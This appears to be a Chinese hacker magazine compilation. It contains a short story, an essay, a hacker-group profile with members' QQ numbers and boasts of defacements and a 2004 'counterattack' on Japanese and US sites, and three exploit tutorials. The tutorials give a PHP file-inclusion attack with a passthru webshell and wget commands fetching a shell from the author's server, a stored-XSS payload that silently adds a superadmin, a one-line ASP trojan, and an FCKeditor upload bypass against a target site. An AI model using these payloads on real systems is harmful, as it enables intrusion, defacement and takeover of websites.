外面的空气很清新，而且可以让我很清醒。我就在那一瞬间明白，刚才警告我的人一定不是网管。我转过身折回了网吧。这一回我再进入管理系统的时候，居然没有人阻拦。可 3 个小时之后，电脑的屏幕变成了纯黑色，上面写着几行蓝色的大字：你是一个冥顽不化的人，希望你自重。我知道你一定想知道我是谁，没错，我就是吸尘器。你一定会猜我怎么知道你在哪里和你的所作所为，那么就好好地学习吧，当你拿到大学通知书的那一天我会告诉你我是谁。我还要说的是，你若真的喜欢一个人，就不要一步步地把她推到别人的怀抱。

我的心被震撼着，我承认在这些日子里我刻意地用网络取代着自己对若雨的思念和不舍。我想了一下，决定回到学校考大学，这样就有机会知道吸尘器是谁了。也许我还会把若雨从别人的身边拉回来。我关掉电脑，走出了网吧，直接向学校走去。

若雨看我的表情有些平淡，但是我分明在她的眼中看到了幽怨。我笑着对她说：“傻丫头，我回来了。我要考大学，可是我好像落下了很多的功课，你愿意帮我吗？”

若雨低下了头不说话，我的心突然颤抖着，她已经不愿意跟在我的左右了，也不愿意在我身上耗费出约会的时间。我深深地叹息着，来晚了一步，她已经走进了别人的世界。

她的肩头突然颤抖了起来，哽咽的声音越来越重，最后放声大哭。她抱着我的腰边哭边说：“死秋男，难道你不知道我等你这句话已经很久了吗？你为什么每天都让我担心，你为什么没有小时候那么听话。”若雨的泪打湿了我的衣服，我在此刻才知道自己是多么地对不起若雨。

接下来的日子我就彻底地告别了网吧，生活一下子变得很紧凑。我每天都抱着书本复习，而若雨像个小老师一样时刻把快睡着的我喊醒。

“秋男，你要是把上网那种精神拿到学习上，清华大学绝对是没问题的。”天啊，我快晕倒了，总是揭我的短。没办法，打起精神吧。

有时常常会把书中那些文字和阿拉伯数字当成代码一样看待，要是每天都上微机课多好啊，或者有台电脑，就算让我不碰，我就是那么看着也舒服啊。正在想入非非的时候，若雨出现在我的面前，我连忙把目光移到书本，皱着眉头，极度认真的样子。若雨大笑起来，我刚要生气，她就拉着我的手说：“秋男，我要给你个惊喜。”还没等我反应过来，她就拉着我的手向自习室外跑去。

幸好她说惊喜的地点不是特别远，要不然我会让她累死。她打开了校外一所房子的门，屋子里面没有多少家具，很简单，一张床，还有一个书桌。可是书桌上面竟然放着一台电脑。我的嘴巴已经变成 “O” 型了。这确实是一个超级惊喜了。若雨说：“从此这房间里面的一切都是你的。免得你住校学习受时间影响，现在你想学到几点就几点。而且……”还没等若雨说完，我就把她抱了起来，带着她飞快地旋转。倒不是为了有自己的地方而高兴，是因为那台电脑让我很高兴。这样等若雨离开之后，我又可以接触网络了。

若雨从我怀里挣扎出来，恶狠狠地看着我说：“喂，秋男，你”像个高中生好不好？一点也不知道害羞。我呵呵地傻笑，突然很想知道，若雨是怎么做到的？她是个聪明的女孩子，看到我的疑问，低下头轻声说：“我去打工了，知道你不让我去工作，说我学习要紧，但你要是考不上大学，我在大学里会觉得很孤单。”我笑了，心里却酸酸的。拉着若雨的手说：“我会努力的，相信我。”暗暗发誓，绝不让她失望。

若雨经常让我看高考资料，教我网上复习技巧。我终于明白她为什么租下房子，为我买电脑，原来怕我抵抗网络诱惑，还告诉我该怎么看待网络。那段时间没接触黑客，没出现吸尘器，全部时间用在学习上。

八月，我和若雨收到同一所大学的通知书。突然感觉不那么孤独，世界不再全是黑夜。若雨拿着生活费来小餐馆庆祝，酒精下我对她说了一切，包括吸尘器和自己的一切。她微笑着问：“知道网络中‘双人影’的人吗？”我点头说：“厉害高手！”她神秘微笑：“双人影就是吸尘器。”我惊讶地问：“你怎么知道的？”她认真说：“我就是双人影，吸尘器也是我。”看着她微红的脸颊，眼前模糊，头晕倒在桌上，一定是喝醉了。

天啊！被若雨这个丫头算计了！

## # 黑客路漫漫
cjlchan

> > 路漫漫兮其修远，吾将上下而求索。 ——《归去来兮辞》

走上黑客之路，是偶然，也是必然。鲁迅说，“本来没有路，走的人多了，也变成了路。”我们怀着学习、帮助的信念走在一起。有过挫折、失败，但一直走来。对网络怀有挚爱，初生牛犊不怕虎的精神。

我们不是喜欢破坏，而是喜欢搞怪。像充满好奇的小孩，去探索世界。

任何事物存在都有理由，我们的存在需要体现价值。不能登广告，没钱；不能宣传，警察说我们是坏孩子。我们要通过努力，让世人了解我们。因此，去攻击“大站”，攻击系统，黑想黑的。

毛主席说，“恰同学少年，风华正茂，书生意气，挥斥方遒。”我们风华正茂，书生意气。视力向书本告别，眼镜成了重要物品。

队伍扩大，不仅是计算机专业的，还有更多爱好者加入。有了他们，道路更稳、更长，不再孤单。道路将充满光明、希望、激情与挑战。

最近买了一本书，提到黑客鼻祖，很佩服。他们开创新河，敢做他人不敢事。正是他们，带我们进网络世界。没事时，我喜欢上论坛，大部分是技术性的，想要技术文学结合，完美。主要研究技术，但也可以走文学路线。

一次胜利，开始考虑前途。看了去年《黑客手册》采访职业黑客的文章，感触颇深。

老师讲课说，学计算机的，报国家二级，不是能力问题，二级不过还行，一级不过丑。一个程序都写不出的计算机专业学生，算什么大学？师兄写blog第一句话：“我这大学白上了。”我们真是要学点东西。游戏好玩，但别被游戏“游戏”了。

喜欢下雨时静静思考，整个人才能静下来。思忖得失与希望，心灵得到洗礼，明白前进方向。

不太喜欢吸烟，但偶尔一支，熏得呛，但快乐。

话题沉重，说点别的。上论坛看到很多问怎么免费上网、偷QQ、拿管理员密码的。做人要厚道，不要想偷QQ号。但年轻人敢想敢干，顶一下。听说国外有黑客专业学校，不知道毕业能否找到工作，愿上帝保佑他们。

食堂新来师傅，五毛饭给得多。问了一句，师傅新来的吧？一脸愕然，我嘿嘿一笑。

好了，废话不多说。愿各位黑客朋友一路顺风，百试不爽。

喜欢许巍《飞得更高》，望我们在黑客道路上不鸣则已，一鸣惊人。不飞则已，一飞冲天。

## # 中国黑客团队
### 原始记录：岁月如歌

中文：岁月联盟
英文：Years Information Safety Alliance

组织名称：岁月联盟
组织形式：非商业性民间技术机构，由喜欢计算机的年轻人组成。进行有计划的技术研究、交流、推广工作。也是民间爱国团体，宣言是：“不参与政治，言论和行动建立在爱国和维护中国尊严基础上，声音和行动是中华民族关节的体现。”

网站地址：www.syue.com
成立时间：2002年8月1日
最初发起人：猪猪
组织创立初衷：推动计算机技术发展，探索未来。

现状：技术研发，与实体部门合作科研。

### 现有核心成员及其特长：

**站长：猪猪**
性别：男
QQ：100298
特长：网络渗透，安全检测，安全评估。

**成员：江学如**
性别：男
QQ: 37598989
特长：C语言，Linux和Windows开发，pix,isa,iptables配置，系统溢出、sql注入等。

**成员：糊涂虾**
性别：男
QQ: 852666
特长：DELPHI程序设计。

**成员：断魂草**
性别：男
QQ: 65604486
特长：脚本入侵。

**成员：邪正**
性别：男
QQ: 5742080
特长：高级程序员，C++编程，曾开发网络游戏木马、外挂、商业管理软件。

**成员：凌御**
性别：男
QQ: 85030112
特长：反病毒，软、硬件DIY。

**成员：猫猫**
性别：女
QQ: 2711099
特长：XML / ASP / DELPIN / RootKit / Oday / SqlInjection / Xss / VPN / Sniffer

**成员：Hack 太子**
性别：男
QQ: 78730710
特长：脚本渗透，安全检测，安全评估

**成员：小华**
性别：男
QQ: 4221433
特长：脚本入侵, 系统安全, 网络编程

**成员：恋战**
性别：男
QQ: 222883
特长：网络游戏 传奇私服架设 + 制作

**成员：宝贝公主**
性别：女
QQ: 304295715
特长：DELPHI程序设计

**成员：东邪**
性别：男
QQ: 17789897
特长：linux/delphi 现职OA

**成员：冰雨**
性别：男
QQ: 124639443
特长：软件破解。

**网名：紫心幽客**
性别：男
QQ：648760200
擅长：入侵检测 (IDS/蜜罐架设与安全分析) / 精通LINUX/UNIX管理 / 熟悉DELPHI / 熟练ASPX编程 / 熟悉LINUX 下的 SHELL 编程 / 熟悉软件破解

**成员：黑冰**
性别：男
QQ：81146114
特长：脚本渗透

**成员：Dany**
性别：男
QQ: 65708824
特长：ASP 代码安全检测, WIN2003 下系统安全, 网站建设, 大型网络组建

**成员：ttmouse**
性别：男
QQ: 267284444
特长：设计

### 主要成果展：

*   - 2003年 确定联盟队歌《黑客独白》，作词：老鹰，作曲：栗子，演唱：栗子。
*   - 2004年8月1日 组织“中国黑客八.一反击战”，目标：日本、美国。
*   - 2004年10月 策划争霸“江湖”黑客网上大战，检测国内多家大型站点，如江民科技、20NT、黑客反击线、国际黑客联盟等。
*   - 2005年4月 与政府相关部门合作研究网络安全技术。
*   - 2006年7月 与相关实体组织策划新的研究项目，正在进行中……

> 本站征途世事无常，月月坎坷风暴雨狂。
> 踩点布线网络交京，芳甜苦辣体会品尝。
> 岁岁年年欢乐悲伤，月运交错已成过往。
> 联合朋友抗击外洋，盟天之喝经历风霜。
> 谢他谢你全天辉煌，谢天馈赠大地奖赏。

### 前言：

估计消息灵通读者已知道本期采访对象，打油诗第一列就看出来。岁月联盟 (Years Information Safety Alliance)，历经坎坷终成栋梁的组织，风雨无阻，始终伫立的站点。由爱国青年组成的非商业性民间技术机构，不参与政治，但爱国，一切言行建立在爱国和维护中国尊严基础上。

2002年8月1日成立，宗旨是打造年轻人自己的技术交流平台。最初发起人猪猪，帅气阳光的男孩。创立初衷：推动国内黑客技术发展，探索未来。

NoHack: 当初建立初衷是什么？跟风、好玩还是想干大事闯名号？

猪猪: 【S = 岁 Yue = 月】，叫“岁月联盟”，网络变幻莫测，第一印象“味”。网络可做平时不敢事，可加快科技创新，让环境更完美。

2002年开始接触做网站的朋友，天天跟着乱玩，申请免费域名和空间，开始建网络家园。感觉时光匆匆，岁月如流水。把岁月联盟变成纯网络安全技术站点。第一批11个同学组成，盲目追求“黑客精神”，开始漫长黑客岁月。

后来开始“八.一反击战”。猪猪和岁月联盟迅速成长，大家熟知，当时长时间守在电脑前，饭水不顾。反击战结束后，国内新闻和日本电视都报道了。

随后检测站点，影响最大的是检测江民科技，主页被入侵。

NoHack: 知道岁月联盟扬名是那次入侵江民，是偶然还是“蓄意已久”？介绍下经过？

猪猪: 我是江民论坛版主，经常解决问题，对网站熟悉。之前检测过，提醒修补漏洞，并非出风头。修改主页是我没想的。

NoHack: 网络上黑客站点多，人才可能离开，想过出路吗？

猪猪: 无底洞受不了，想发展只有商业化，但不会用不法手段赚钱，继续按理念走下去。

NoHack: 最近网络沉寂，大站事件和激情少，中国黑客站点会怎样发展？

猪猪: 趋向职业化，资源共享消失，创新减少。技术者在后，没技术者喊。遇事大部分闪人。

编辑点评：猪猪说年轻太看重名利，其实无聊。技术才是永不褪色的。后悔年轻太贪玩。中国有句古话“活到老，学到老”。猪猪技术上成熟，思想上成熟，岁月联盟更成熟。祝愿在新的一年有新的收获，岁月联盟访问量增加！

小天首语: 不想06年这么快过去，技术长进多少？仍徘徊小菜中？觉得技术繁杂时间有限或感觉不到进步？别紧，新年新气象，继续努力。

新洞练练看栏目得到关注和认可，小编欣慰。策划“教你找漏洞”系列文章，涵盖PHP、ASP、JSP漏洞，原理、实例文章相扣，期期精彩，希望大家喜欢。欢迎大家来信分享经验，进行语气排行，邮箱: iceskysL@gmail.com。

## # PHP 漏洞系列 —— 包含文件漏洞 (原理篇)
IceskySl@lst

+   从本文可以学到：
1、PHP 文件包含漏洞产生原理
2、利用方法
3、作者技巧和方法

开始系列关于PHP漏洞的文章，看完后找到属于自己的漏洞，OK？

首先说包含文件漏洞，问什么是“远程文件包含漏洞”？目标服务器通过php特性(函数)包含指定文件时，由于文件来源过滤不严，可包含指定路径恶意文件，构造恶意文件达到目的。提醒，几乎所有cgi程序都有类似bug，表现方式不同。逐步讲述。

## ## 一、涉及到的危险函数

(include(), require() 和 include_once(), require_once())

## ### include() && require() 语句：包括并运行指定文件

两种函数完全一样，区别是处理失败方式。include() 产生警告，require() 产生错误停止运行。遇到找不到文件，用require()停止处理，include()忽略继续运行。如果 "allow_url_fopen" 被激活，可以用URL指定文件，HTTP或其他协议。如果目标文件作为PHP代码解释，可用HTTP GET请求字符串传递变量。

详细参考：http://www.phpe.net/manual/function.include.php

## ### require_once() && include_once() 语句

require_once() 和 include_once() 包括并运行指定文件，行为与require()类似，区别是如果文件已包括，不会再包括，适用于文件可能被多次包括的情况，避免函数重定义等问题。

详细情况参考：http://www.phpe.net/manual/function.require-once.php

## ## 二、为什么要包含文件

问为什么要包含文件？程序员不喜欢重复写代码，把公用代码写单独文件，如share.php，其他文件include调用。在php中用列举的函数达到目的。

工作流程：想包含share.php代码到main.php，写include("share.php")，使用share.php中定义的函数。直接写文件名没问题，问题在于文件来源过滤不严，导致漏洞。

有时写程序不能确定包含哪个文件，想动态包含，如index.php代码：

```
php
if ($_GET[page]) {
include $_GET[page];
} else {
include "home.php";
}
```

看似正常，运作方式：提交URL，index.php取得page值（$_GET[page]），判断是否空，如果不空就用include包含，若空则include home.php。

## ### 三、为什么会产生漏洞

问为什么会产生漏洞？关键在于我们不乖，会自己写想包含的文件，如打入http://www.1steam.cn/php/index.php?page=hello.php。index.php程序按步骤执行：取page为hello.php，然后include(hello.php)，出问题，因为没hello.php，include时报错。

## ### 四、怎么利用

问题出现，怎么利用？利用方法很多，实质一样，说三种常见方法：

#### 1. 包含读出目标机上其它文件

可以看到，对取得的参数page没有过滤，可任意指定目标主机上的其他文件。警告中暴露绝对路径，可探测包含其他文件，如指定URL为：http://www.1steam.cn/php/index.php?page=./txt.txt 读出当前路径txt.txt文件。使用../../进行目录跳转（没过滤../时），直接指定绝对路径读敏感系统文件。

#### 2. 包含可运行的PHP木马

如果“allow_url_fopen”激活，可更利用空间。指定URL上写PHP代码的webshell直接运行，先写一段运行命令的PHP代码保存为cmd.txt。

```
php
<?php
if (get_magic_quotes_gpc())
{$_REQUEST["cmd"]=stripslashes($_REQUEST["cmd"]);} // 去掉转义字符
ini_set("max_execution_time",0); // 设定执行时间，0为不限制
echo "<br>1.S.T<br>";
passthru($_REQUEST["cmd"]); // 运行cmd命令
echo "<br>1.S.T<br>";
?>
```

保存到自己的服务器，能通过HTTP访问。构造URL利用：

http://www.1steam.cn/php/index.php?page=http://www.1ster.cn/cmd.txt?cmd=ls，cmd后是执行命令。常用命令（以UNIX为例）：

-   ll、ls 列目录文件（相当于Windows下dir）
-   pwd 查看当前绝对路径
-   id、whoami 查看当前用户
-   wget 下载指定URL的文件

其他UNIX命令自行搜索。

利用方法得到Webshell。可查看文件、目录等信息。

#### 3. 包含创建文件的PHP文件

有人认为得到目标机上的真实Webshell更放心，万一修补漏洞，就失效。说两种常见方法：

##### 1) 使用wget下载Webshell

简单常用，在得到的伪webshell中执行命令，可调用wget下载Webshell。前提是放一个PHP代码的Webshell在可通过HTTP或FTP访问的地方，如：http://www.1ster.cn/1stphp.txt, 在伪webshell中执行URL：http://www.1steam.cn/php/index.php?page=http://www.1ster.cn/cmd.txt?cmd=wget http://www.1ster.cn/1stphp.txt -O 1stphp.php，当前目录可写，得到Webshell。

##### 2) 使用文件创建

wget可能遇到当前目录不可写或禁用的情况，用文件创建。

没装）这个命令，我们又需要变通一下了。我们可以结合前面的包含文件漏洞来包含一个创建文件（写文件）的 PHP 脚本，内容如下：

```php
<?
$f = file_get_contents("http://www.1ster.cn/1stphp.txt"); // 打开指定路径的文件流
$ff = fopen("./upload/1st.php", "a");
// 寻找一个可写的目录，创建一个文件
fwrite($ff, $f); // 把前面打开的文件流写到创建的文件里
fclose($ff); // 关闭保存文件
?>
```

还是写入我们上面用 wget 下载的那个 php 文件，但是我们改进了方法，用 PHP 脚本来实现。可以使用上面的 `cmd.php?cmd=ll` 查找可以写的目录，比如这里的 upload，然后把文件创建在这个目录下：`./upload/1st.php`，然后就得到我们的 Webshell 了。

欢迎发问，或者自己去 Google 解决，时间匆忙，描述不妥之处还望大家指正！后续文章将逐步讲解 SQL、跨站等系列漏洞，请大家继续关注！

## 五、后话

其实到这里这几个分专题就可以结束了，最后再唠叨几句。文件包含漏洞基本上算比较简单但是危险系数很高的漏洞，在很多系统中还是存在的，只要细心一点，可以发现很多的。利用起来过程比较灵活，要善于针对问题进行分析，找出解决的办法，就能慢慢进步。另外，漏洞涉及的知识很多，不能一一涉及，没说清楚的地方，

## 编辑点评

很早就想策划这么一个专题了，一来是对以前的知识做个总结；二来是为了给读者更多有用的信息，帮助读者能更加清楚地认识到这类漏洞产生的原理，使更多的朋友能发现漏洞。很高兴作者能把自己的一些心得和想法和大家分享，能把自己的知识加以总结归纳，再用通俗的语言表达出来，这是难能可贵的。那些希望自己能找到漏洞的朋友就该多多关注啦，有什么疑问可以来 BBS 上提问。

## 跨出权限

### ——世纪热线全站程序完美版漏洞利用

樱花浪子[I.S.T]

- 从本文中你可以学到：
- 跨站的一种利用手段
- 跨站的思路

06 年可以说是注入逐渐淡卸、新技术萌芽和成熟的一年。跨站虽然算不上新技术，有人还认为跨站成不了大器，但如果利用代码构造得好的话还是可以干很多事。这不，在网上逛到了一个电影网站，心想如果把这个站拿下来不就可以看免费的电影了么（动机不太好呀 ^_^）。经过查看，发现程序用的是：“世纪热线全站程序完美版”，于是去百度搜一下，没发现可以利用的现成漏洞，那么就自己下回来慢慢研究吧。

这套程序在注入方面防范得还不错，但是跨站方面好像就没有做到家。经过仔细地查找，终于被我找到了一根软肋。首先我们注册一个普通用户，一般电影网站都提供影片报错的功能，这个自然也不例外。我们在首页随便点击一个影片，下面有个报告错误，点一下之后会打开一个页面。因为这个报告错误只有管理员能看，我们在报告错误里写上 `<script>alert("樱花浪子")</script>`，如图 1 所示。

点开始报告，我们再去后台的电影管理/错误报告去看一下，跨站代码被成功执行了，如图 2 所示。

既然这个能执行，我们再来构造一些特殊的代码吧。后台有个添加管理员的功能，我们先来看看它的代码是怎么实现的，添加管理员的关键代码如下：

```html
<form method="post" action="saveuser1.asp" name="form1" onsubmit="javascript:return check();">
<table width="396" border="0" cellspacing="1" cellpadding="0">
<tr bgcolor="#0099FF">
<td height="25" width="392">
<div align="center">
<font size="2">新增管理员</font></div>
</td>
</tr>
<tr>
<td height="30" style="color: black; border-style: none" width="253">
<div align="center">
<font size="2">用 户 名 <input type="text" name="username" size="20">
</font>
</div>
</td>
<td height="30" style="color: black; border-style: none" width="138">
&nbsp;</td>
</tr>
<tr>
<td height="30" style="color: black; border-style: none" width="253">
<div align="center">
<font size="2">初 始密码 <input type="password" name="newpin" size="20">
</font>
</div>
</td>
<td height="30" style="color: black; border-style: none" width="138">
<span lang="zh-cn"><font size="2">数字 + 字母 10 位以上</font></span></td>
</tr>
<tr>
<td height="30" style="color: black; border-style: none" width="253">
<div align="center">
<font size="2">确认密码 <input type="password" name="re_newpin" size="20">
</font>
</div>
</td>
<td height="30" style="color: black; border-style: none" width="138">
<span lang="zh-cn"><font size="2">数字 + 字母 10 位以上</font></span></td>
</tr>
<tr>
<td height="30" style="color: black; border-style: none" width="253">
<p align="center"><span lang="zh-cn">&nbsp;</span>权限设置 <span lang="zh-cn">&nbsp;</span><select size="1" name="flag">
<option value="3">==== 初级管理员 ====</option>
<option value="2">==== 高级管理员 ====</option>
<option value="1">==== 超级管理员 ====</option>
</select></td>
<td height="30" style="color: black; border-style: none" width="138"> </td>
</tr>
</table>
<p><input type="submit" name="Submit" value="确定"> </p>
</form>
```

其实这个我们只稍稍改动一下就可以了，改好的代码如下：

```html
<font size="2">用 户 名 <input type="text" name="username" size="20" value="hacklu119"> // 添加管理员名字
代码略……
<font size="2">初始密码 <input type="password" name="newpin" size="20" value="hack11911"> // 添加管理员密码
代码略……
<font size="2">确认密码 <input type="password" name="re_newpin" size="20" value="hack11911"> // 确认管理员密码
</font>
代码略……
<p align="center"><span lang="zh-cn">&nbsp;</span>权 限设置 <span lang="zh-cn">&nbsp;</span><select size="1" name="flag">
<option selected value="1">==== 无管理权限 ====</option>
// 设置为超级管理员，注意这里是 1
<option value="3">==== 初级管理员 ====</option>
<option value="2">==== 高级管理员 ====</option>
<option value="1">==== 超级管理员 ====</option>
</select></td>
<td height="30" style="color: black; border-style: none" width="138"> </td>
</tr>
</table>
<p><input type="submit" name="Submit" value="确定"> </p>

<p> </p>
<p align="center">
<script language="javascript">
// 用 javascript 脚本叫程序自动运行
this.document.forms[0].submit()
</script>
</div>
</form>
```

最重要的是 action 后的路径和最后自动运行的脚本，路径大家一定要对上。把上面的代码保存为 hacklu.htm 上传到自己的空间。然后再来到错误报告的地方写上我们的挂马代码：`<iframe src=http://www.hacklu.net/tu/hacklu.htm width=0 height=0></iframe>`，`www.hacklu.net` 是我空间的地址。这样管理员在看错误报告时就会添加一个名为 hacklu119 的超级管理员，如图 3、图 4。

其实我们还可以构造备份 WEBSHELL 什么的，只是这个后台没有备份数据库的功能，所以要得到 WEBSHELL 有一定的困难。刚开始我在添加电影的地方上传 ASP 木马，又是改名又是改扩展名的，可惜还没有成功。后来不经意发现原来这个数据库是 ASP 的，那么就好办了。直接在添加电影的地方写上我们的一句话 ASP 木马，如图 5 所示。

最后我们用客户端连接 `http://127.0.0.1/data/jdzcn.asp`，如图 6 所示，连接成功后会生成 `killbase.asp` 文件，最后成功得到 WEBSHELL，见图 7。

不过如果数据库改了名字的话，那么得 WEBSHELL 就不容易了。最后欢迎大家到 NOHACK/BBS 和我交流，我的 ID 是樱花浪子。

> （文章中用到的一句话木马和作者做的演示动画收录在光盘中）

**编辑点评：**很多人认为跨站只是小儿科，做不了大事，其实不然，只要你的利用语句构造得足够“邪恶”，跨站能做很多事情的。相比 SQL 的暴戾，跨站更有隐藏性和杀伤力，SQL 还会留下大量的日志，给警察叔叔的追捕提供不少便利，而跨站却能做到不声不响，悄无声息。所以，最重要的是，去了解跨站，学习实践跨站，你也能发现一些高级的用法，到那时你就不会认为跨站只是小儿科了。

## 新上传漏洞是这么发现的——记 FCKeditor 上传漏洞发现全过程

CQXB

- 从本文中你可以学到：
- FCKeditor 上传漏洞的发现过程
- 作者的整体思路

对某网站“觊觎”很久了。所谓知己知彼百战不殆，要想拿下它，就必须对它有尽可能多的了解。下面是我用俄罗斯的 Shadow Security Scanner（以下称 SSS）扫描后，加上自己的各种分析整理出来的服务器信息：

- 1、服务器上只有两个网站，一个是 ASP 页面，另一个是 ASPX 页面，但对注入的防范都很严，脚本攻击无从下手。
- 2、端口扫描的结果，只有 21、80 和 3389 端口，应该装有防火墙。对 21 端口，SSS 只显示它是 serv-u 6.0，没有更多的漏洞信息，如图 1 所示。

关于 Serv-U 方面，我知道的都是提升权限方面的，可是现在连 webshell 都没弄到啊，更谈不上提权了。3389 默认下是终端服务开放的端口，从 80 端口显示的 “Microsoft-IIS6.0” 的信息，如图 2。用 3389 连接工具连接后看到的登录界面，可以肯定服务器操作系统是 Windows Server 2003。要知道 2003 比 2000 牛多了，对我们小菜来说操作系统漏洞攻击没有希望。

- 3、从网页新闻的“添加”中泄漏的信息看，发表新闻的有多个用户，且有高权限的用户名称应该是叫 admin，如图 3，页面上也有管理员登录地址，如图 4。我用社会工程学的办法试了 n 多的密码，都没猜中，很是扫兴。

可见管理员把各个方面都设置得很 BT，加上菜鸟我功力不深，虽然研究了十余天，但是也没有任何进展，只能保存好目前掌握的信息，看看来日有新发现时能否用得上了。哎，我们小黑最痛苦的事莫过于此了。

最近，对该网站还恋恋不舍的我又浏览了一下它，随意地点了个新闻来看，没什么特别的，就是发新闻的人名字变了，变成 newsren 了。我眼前一亮，怎么这个用户我没印象？随意地输了个用户名和密码都是 newsren 的组合登录，哈哈，居然登录成功了！如图 5。十多天来的努力终于有了一点意外的收获！

浏览了一下后台，感觉很新鲜，以前从来没见过。有个上传功能，不过看样子它提示好像只能上传指定的图片文件类型，不能上传 asp 等危险的文件，如图 6。

抱着试试看的心理，我把 webshell 的后缀改成 `.jpg` 型上传，同时用 WSE 抓包，如图 7。结果显示如下：

```text
POST /fckeditor/editor/filemanager/upload/asp/upload.asp?Type=Image HTTP/1.1
Accept: */*
Referer: http://tetarget.com.cn/fckeditor/editor/dialog/fck_image.html
Accept-Language: zh-cn
......中间这里限于篇幅，省略次要数据，具体代码在附件里
-----------------------------7d6bb17190196
Content-Disposition: form-data; name="NewFile"; filename="D:\pic.jpg"
Content-Type: text/plain
......这里也省略了后面的次要数据，具体代码在附件里
-----------------------------7d6bb17190196--
```

看上去一点也不像存在上传漏洞嘛。把上面的信息保存成 `1.txt` 后，试了试把上传的文件后缀改成 `.asp00.jpg`，即看看是否存在文件名自定义型的上传漏洞。用 nc 提交我们 `1.txt` 里的数据，如图 8。数据返回如下：

```text
D:\>nc tetarget.com.cn 80<1.txt
HTTP/1.1 200 OK
Date: Xxx, xx xxx 200x xx:xx:xx GMT
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
Content-Length: 2337
Content-Type: text/html
Cache-control: private

// 注意，下面泄露了原本该保留的信息

<!--
* FCKeditor - The text editor for internet
* Copyright (C) 2003-2005 Frederico Caldeira Knabben
*
* Licensed under the terms of the GNU Lesser General
Public License:
*          http://www.opensource.org/licenses/lgpl-
license.php
*
* For further information visit:
*       http://www.fckeditor.net/
*
* ......（省略一大堆的英文信息，具体信息在附件里）
-->
<script type="text/javascript">window.parent.OnUploadCompleted(202,"","","");</script>
D:\>
```

证明我们失败了，好扫兴。看着那个返回的长长的英文信息我就头疼。不过，好像有别的东西，回过头来仔细看了看，哈哈，原来是泄漏了版本和其它敏感信息！现在我们知道了他用的管理组件是叫 FCKeditor 的了，而且是免费的开源东东。

根据返回数据包中提示的官方网站，我去下了一个 FCKeditor 2.2，分析一下代码，看看能不能发现漏洞。解压后胡乱看了一下，发现了几个默认的没有扩展名限制的上传页面，在浏览器里测试了一下，发现管理员把那些都删除了，看来是挺细心的。就这样边看边测试，不一会儿就花去了几个小时的时间，腰和脖子都酸了，还是没有进展。太打击人了！无奈，不能随机地看了，那样效率太低了，要一个一个有顺序地看。没多久，在看 `fckconfig.js` 时发现有以下代码（次要代码已省略，具体代码在附件里）：

```text
①
FCKConfig.LinkUpload = true ;
FCKConfig.LinkUploadAllowedExtensions = "" ; // 允许的扩展名；注意这里是空的！
FCKConfig.LinkUploadDeniedExtensions = "(php|php3|php5|phtml|asp|aspx|ascx|jsp|cfm|cfc|pl|bat|exe|dll|reg|cgi)$" ;  // empty for no one  // 被禁止上传的扩展名列表，注意，问题就在这里：没有限制 asa 等危险扩展名。

②
FCKConfig.ImageUpload = true ;
FCKConfig.ImageUploadAllowedExtensions = "(jpg|gif|jpeg|png)$" ; // 注意和①的同一个地方比较，这里是只允许上传指定扩展名的文件
FCKConfig.ImageUploadDeniedExtensions = "" ; // 这里为空
```

仔细观察一下，看第二段代码（黑体加粗部分），意思是说在 image 的上传上做限制，只允许指定扩展名的文件被上传。不过，对第一段，它只是除了某些文件类型不能上传，其它都能上传，而其它本应该限制的文件类型如 asa、cer、cdx、htr 却没有被写入到禁止上传的名单内！哈哈，看来这里很可能就是我们的突破口！继续！我们把这两段代码的第一句抽出来比较比较：

```text
FCKConfig.LinkUpload = true ;
FCKConfig.ImageUpload = true ;
```

注意了，不同的地方在于 `link`、`Image`、`Flash`。再观察一下第一次上传时 WSE 的抓包结果，和 `image` 参数有关的地方在 post 和 referer 两个地方：

```text
POST /fckeditor/editor/filemanager/upload/asp/upload.asp?Type=Image HTTP/1.1
Accept: */*
Referer: http://tetarget.com.cn/fckeditor/editor/dialog/fck_image.html
```

即为：`Type=Image` 和 `fck_image.html`。

现在我们来大胆地猜测，要是我把 `Type=Image` 替换成 `Type=link`，再把我的 ASP 后门的后缀改成没有被禁止上传的 `asa` 型，还有后面的那个 `fck_image.html` 也相应地改成 `fck_link.html`，是不是就可以上传了呢？也就是说数据包 `1.txt` 中前面的一部分要变成：

```text
POST /fckeditor/editor/filemanager/upload/asp/upload.asp?Type=link HTTP/1.1
Accept: */*
Referer: http://tetarget.com.cn/fckeditor/editor/dialog/fck_link.html
```

马上就干吗？不，我曾经也这么冲动，有一点思路就迫不及待地要实践，到头来是失败的多，成功的少，很打击人。幸好自己还有反省的意识，错了就改。好，废话不多说了。刚才那个先放着，继续分析 FCKeditor 的其它文件，看看有没有其他捷径，毕竟感觉成功的希望不大。

当分析到 `editor\filemanager\upload\asp\` 下的 `config.asp` 文件，发现有以下代码：

```text
①
ConfigAllowedExtensions.Add "File", "" // 允许的扩展名；这里同刚才一样哦，"" 内也是空的。
ConfigDeniedExtensions.Add "File", "php|php3|php5|phtml|asp|aspx|ascx|jsp|cfm|cfc|pl|bat|exe|dll|reg|cgi" // 被禁止上传的文件扩展名；哈哈，还是没有限制 asa 型的文件

②
ConfigAllowedExtensions.Add "Image", "jpg|gif|jpeg|png|bmp" // 这种类似“只有……扩展名，才能上传”的限制逻辑我们就没办法了
ConfigDeniedExtensions.Add "Image", ""
```

这个时候，我想起了自己刚才的猜想，对比了一下这个 `config.asp` 文件和刚才那个 `fckconfig.js` 文件，马上意识到：刚才那个 `type=image` 修改成 `type=link` 应该是不对的，而应该修改成 `type=file`。那两处的 `image` 参数都要修改成 `file` 吗？不，因为我刚才在 `/editor/dialog/` 文件夹下只是发现了 `fck_link.html` 这个文件，而没有 `fck_file.html` 这个文件，所以这个不应该改，先放着，继续分析……分析到最后一个文件也没有什么进展了，那就把刚才的思路整理一下变成行动：要改的地方有三处，前两处是数据包 `1.txt` 中前面的一部分，修改成下面的内容（修改部分字体已加粗）：

```text
POST /fckeditor/editor/filemanager/upload/asp/upload.asp?Type=file HTTP/1.1
Accept: */*
Referer: http://tetarget.com.cn/fckeditor/editor/dialog/fck_link.html
```

还有把原来上传的文件 `pic.asp` 改成 `pic.asa`，由于 “asp” 和 “asa” 长度一样，都是三个字节，所以其它的就不要变了。整个数据包就是下面的内容，我们把它保存成 `2.txt`（黑体加粗部分为改动的地方）。

```text
POST /fckeditor/editor/filemanager/upload/asp/upload.asp?Type=file HTTP/1.1
Accept: */*
Referer: http://tetarget.com.cn/fckeditor/editor/dialog/fck_link.html
……中间的次要信息已省略，具体代码在附件里
-----------------------------7d6bb17190196
